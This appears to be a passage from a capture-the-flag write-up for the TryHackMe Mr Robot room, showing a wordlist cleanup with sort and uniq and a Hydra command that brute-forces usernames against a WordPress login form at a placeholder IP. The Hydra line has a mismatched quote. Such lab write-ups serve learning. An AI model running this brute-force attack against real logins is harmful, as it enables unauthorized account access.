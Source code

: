 ![burpsuite](./images/THM-MrRobot-CTF-Screenshots/POSTreq-InBurpsuite.png)

### I also noticed that the wordlist had many duplicated words, so I will fix it real quick.

```bash
sort wordlist.txt | uniq -d > refined_list.txt

sort wordlist.txt | uniq -u >> refined_list.txt

wc -w refined_list.txt
```
#### Output:
11451 refined_list.txt

### Using Hydra to try and get some some usernames.

```bash
hydra -L refined_list.txt -p test <target_ip> http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid username" -VV -t 35
```

`-L: list of potential usernames.`


`-p: static password.`
